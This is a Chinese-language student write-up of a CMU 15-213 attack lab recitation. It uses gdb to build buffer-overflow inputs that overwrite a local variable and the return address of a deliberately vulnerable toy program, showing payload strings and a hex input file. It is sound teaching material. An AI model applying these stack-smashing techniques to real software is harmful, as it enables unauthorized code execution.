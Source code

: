 # Attack lab recitation


输入`gdb activity`，开启 activity 之旅。

> Objective: The goal of this activity is to input a string that causes the program to call win(0x15213),
> and thereby win a cookie.
> 在开启之前，先查看一下`solve`函数的内容：

```c
void solve(void) {
    volatile long before = 0xb4;
    char buf[16];
    volatile long after = 0xaf;

    Gets(buf);

    if (before == 0x3331323531) {
        win(0x15213);
    }

    if (after == 0x3331323831) {
        win(0x18213);
    }
}
```

看一下`solve`的汇编代码：

```
(gdb) disas solve
Dump of assembler code for function solve:
   0x00000000000011df <+0>:     endbr64
   0x00000000000011e3 <+4>:     sub    $0x38,%rsp
   0x00000000000011e7 <+8>:     movq   $0xb4,0x28(%rsp)
   0x00000000000011f0 <+17>:    movq   $0xaf,0x8(%rsp)
   0x00000000000011f9 <+26>:    lea    0x10(%rsp),%rdi
   0x00000000000011fe <+31>:    callq  0x1279 <Gets>
   0x0000000000001203 <+36>:    mov    0x28(%rsp),%rdx
   0x0000000000001208 <+41>:    movabs $0x3331323531,%rax
   0x0000000000001212 <+51>:    cmp    %rax,%rdx
   0x0000000000001215 <+54>:    je     0x1230 <solve+81>
   0x0000000000001217 <+56>:    mov    0x8(%rsp),%rdx
   0x000000000000121c <+61>:    movabs $0x3331323831,%rax
   0x0000000000001226 <+71>:    cmp    %rax,%rdx
   0x0000000000001229 <+74>:    je     0x123c <solve+93>
   0x000000000000122b <+76>:    add    $0x38,%rsp
   0x000000000000122f <+80>:    retq
   0x0000000000001230 <+81>:    mov    $0x15213,%edi
   0x0000000000001235 <+86>:    callq  0x1169 <win>
   0x000000000000123a <+91>:    jmp    0x1217 <solve+56>
   0x000000000000123c <+93>:    mov    $0x18213,%edi
   0x0000000000001241 <+98>:    callq  0x1169 <win>
   0x0000000000001246 <+103>:   jmp    0x122b <solve+76>
End of assembler dump.
```

函数给`solve`预留了 56 个字节的空间：

1. `before = 0xb4`移动到`%rsp + 40`处
2. `after = 0xaf`移动到`%rsp + 8`处
3. `%rdi = %rsp + 16`
4. 调用`gets`
5. `%rdx = *(%rsp + 40)`，把`before`赋给`%rdx`
6. `%rax = $0x3331323531`
7. 接下来是个判断：

```c
if(rdx == rax) {
    edi = 0x15213;
    callq win
}
rdx = *(rsp + 8);
rax = 0x3331323831;
if(rdx == rax) {
  edi = 0x18213;
  callq win;
}
rsp += 40;
return;
```

完成`gets`之前的调用后，栈分布大致如下（一共 56 个字节的分配）：

1. `rsp`处没有值
2. `rsp + 8`处存储`after = 0xaf`
3. `rsp + 16 ~ rsp + 24`处存储 16 字节的`buf`
4. `rsp + 32`处 8 个字节空闲
5. `rsp + 40`处存储`before = 0xb4`
6. `rsp + 56`处存储的是调用`solve`的`return address`

### 普通缓冲区溢出

查看代码可以理解，要让程序调用`win(0x15213)`，需要让`rdx == 0x3331323531`，而在这之前`rdx = before`，所以我们的根本目的是让`before = 0x3331323531`。就得让`buf`前 24 个字节为 0，后八个字节等于`0x3331323531`。该机器为小端法机器，那么这 8 个字节从低地址到高地址的顺序应该是：`0x31 0x35 0x32 0x31 0x33 0x00 0x00 0x00`，这 8 个个字节翻译成`ASCII码`就是`15213`。此外`gets`一定要读到`\n`字符，它会把`\n`替换为`\0`字符。它不是读到`\0`字符就终止。后面不需要加`0`，因为`0`的`ASCII`编码是`0x30`。如果最后加了 3 个`0`的话，最后 8 个字节的地址就会变成`0x31 0x35 0x32 0x31 0x33 0x30 0x30 0x30`。

> 有几条要注意的点：
>
> 1. 机器为小端法机器，写内存的时候要把数字倒过来
> 2. `0x00`是在 ASCII 码里面是空字符，`0x30`在 ASCII 码里面是`0`
> 3. `gets`要读到`\n`，他会把`\n`替换成`\0`存储在`buf`中，无需手动`\0`
> 4. 输入的时候只能输入字符串，而不能输入 10 进制或者 16 进制的值，如果函数没有调用`atoi`，输入一律被当作字符串处理。因此我们需要输入`0x3331323531`对应的`ASCII`编码，而不是这个值本身。

输入`01234567890123456789012315213`，成功调用`win(0x15213)`。如下：

```
gwen@gwen-virtual-machine:~/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src$ ./activity
01234567890123456789012315213
You win 1 cookie! Great start!
Returning normally from main
```

### 包含返回地址攻击的缓冲区溢出

要让这个`solve`函数跳转到我们插入的代码段（未开启栈随机化/`canary`/`NX bit`及其他防护机制，不考虑`nop sled`），我们需要利用缓冲区溢出，让`return address`修改为我们所插入的代码段的地址。我们需要让`buf`的前 40 个字节为任意内容，最后 8 个字节为我们插入的攻击代码的地址。

我们这次的目的是想调到`<solve +93>`位置处，本次运行过程中该位置的地址是`0x000055555555523c`，过会儿我们要将其插入`buf`的第 48-48 字节处。该地址的值换算成小端法是`0x3c 0x52 0x55 0x55 0x55 0x55 0x00 0x00`。其对应的`ASCII码`是`<RUUUU`，后面的`null`为`0x00`。我们要让程序返回的时候跳转到`mov $0x18213,%edi`。那么构造的字符串应该是`0123456789012345678901234567890123456789<RUUUU`。结果如下：

```
43          if (after == 0x3331323831) {
(gdb) n
solve () at activity.c:44
44              win(0x18213);
(gdb)
You win 2 cookies! Woohoo!
0x0000000000000000 in ?? ()
```

成功！

### 引导程序到攻击代码

此处我们进行更进阶的攻击，程序中函数`solve()`并未调用过`win(0x18613)`，让我们尝试返回到`win(0x18613)`中。此时我们不光只破解`solve()`，还需要对`win`函数的代码进行分析。结果如下：

```
(gdb) disas win
Dump of assembler code for function win:
   0x0000555555555169 <+0>:     endbr64
   0x000055555555516d <+4>:     sub    $0x8,%rsp
   0x0000555555555171 <+8>:     cmp    $0x15213,%edi
   0x0000555555555177 <+14>:    je     0x5555555551a7 <win+62>
   0x0000555555555179 <+16>:    cmp    $0x18213,%edi
   0x000055555555517f <+22>:    je     0x5555555551b5 <win+76>
   0x0000555555555181 <+24>:    cmp    $0x18613,%edi
   0x0000555555555187 <+30>:    je     0x5555555551c3 <win+90>
   0x0000555555555189 <+32>:    mov    0x2ea1(%rip),%eax        # 0x555555558030 <mystery>
   0x000055555555518f <+38>:    cmp    $0x15513,%eax
   0x0000555555555194 <+43>:    je     0x5555555551d1 <win+104>
   0x0000555555555196 <+45>:    lea    0xed3(%rip),%rdi        # 0x555555556070
   0x000055555555519d <+52>:    callq  0x555555555030 <puts@plt>
   0x00005555555551a2 <+57>:    add    $0x8,%rsp
   0x00005555555551a6 <+61>:    retq
   0x00005555555551a7 <+62>:    lea    0xe5a(%rip),%rdi        # 0x555555556008
   0x00005555555551ae <+69>:    callq  0x555555555030 <puts@plt>
   0x00005555555551b3 <+74>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551b5 <+76>:    lea    0xedc(%rip),%rdi        # 0x555555556098
   0x00005555555551bc <+83>:    callq  0x555555555030 <puts@plt>
   0x00005555555551c1 <+88>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551c3 <+90>:    lea    0xe5e(%rip),%rdi        # 0x555555556028
   0x00005555555551ca <+97>:    callq  0x555555555030 <puts@plt>
   0x00005555555551cf <+102>:   jmp    0x5555555551a2 <win+57>
   0x00005555555551d1 <+104>:   lea    0xe78(%rip),%rdi        # 0x555555556050
   0x00005555555551d8 <+111>:   callq  0x555555555030 <puts@plt>
   0x00005555555551dd <+116>:   jmp    0x5555555551a2 <win+57>
End of assembler dump.
```

我们需要跳转到`if(arg == 0x18613)`后面那句，也就是`<win+90>`处，该条指令的地址是`0x00005555555551c3`，转化成小端法是`0xc3 0x51 0x55 0x55 0x55 0x55 0x00 0x00`，转化成`ASCII码`也就是`ÃQUUUU`。因此，我们构造的字符串应该是`0123456789012345678901234567890123456789ÃQUUUU`。结果如下：

```
(gdb) p $rsp
$2 = (void *) 0x555555559018 <my_stack+4056>
(gdb) x/s 0x555555559018
0x555555559018 <my_stack+4056>: "ÃQUUUU"
(gdb) x/6bx 0x555555559018
0x555555559018 <my_stack+4056>: 0xc3    0x83    0x51    0x55    0x55    0x55
```

这里出现了一点问题，就是`Ã`采用`Unicode`扩展编码，其编码为`0xc3 0x83`，而我们仅仅需要`0xc3`，因此我们需要将 16 进制的地址写在文件里，然后用文件作为`activity`的输入。

[Slides 中最后一页](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f23/www/recitations/rec04_slides.pdf)告诉我们，提供了`hex2raw`脚本，可以把 16 进制值写到`input2.txt`中，然后通过`hex2raw`转化为`input2.bin`。我们在`input2.txt`中写入值`30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 31 35 32 31 33 00 30 31 32 33 34 35 36 37 38 39 c3 51 55 55 55 55`，将其转化，然后输入`./activity < ../inputs/input2.bin`。

结果如下：

```
(gdb) r < ../inputs/input2.bin
Starting program: /home/gwen/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src/activity < ../inputs/input2.bin
You win 3 cookies! That's right!

Program received signal SIGSEGV, Segmentation fault.
```

成功！

